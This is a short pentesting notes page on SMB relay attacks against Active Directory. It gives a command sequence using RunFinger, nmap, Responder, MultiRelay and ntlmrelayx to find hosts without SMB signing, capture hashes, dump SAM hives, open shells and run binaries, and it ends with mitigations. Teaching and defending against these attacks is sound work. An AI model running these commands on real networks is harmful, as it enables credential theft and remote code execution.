 ```yaml
---
title: "SMB Relay"
description: "SMB Relay attacks using Responder."
lead: "Using responder.py, ntlmrelayx.py, and runfinger.py to attack Active Directory."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "mitm_relay"
weight: 30
toc: true
---
```


## What is SMB Relay?

- Capture hashes
- Relay them to other hosts to authenticate
- No need to crack hashes with hashcat

## Requirements

- SMB signing must be disabled on the target
- SMB signing checks authenticity of SMB packets
- Relayed user credentials must be admin on target machine

## Exploitation

```bash
# Discover hosts with SMB signing disabled
python RunFinger.py -i 10.0.0.2/24
nmap --script=smb2-security-mode -p 445 -v 10.10.10.0/24

# Turn off HTTP and SMB in Responder.conf
nvim Responder.conf

# Start responder
python Responder.py -I tun0 -rdwv

# Set up relay

# Target specific host
python MultiRelay.py -t 10.0.2.4 -u ALL

# Target multiple hosts

# Dump SAM hive
python ntlmrelayx.py -tf targets.txt -smb2support

# Interactive SMB shell
python ntlmrelayx.py -tf targets.txt -smb2support -i
nc 127.0.0.1 11000

# Execute command
python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# Execute binary
python ntlmrelayx.py -tf targets.txt -smb2support -e "shell.exe"
```

## Mitigation

- Enable SMB signing on all devices (may cause performance issues with file copies)
- Disable NTLM authentication on the network but Windows can default back to it if Kerberos stops working
- Account tiering: limit domain admins to specific tasks
- Local admin restriction (can increase service deskt tickets)
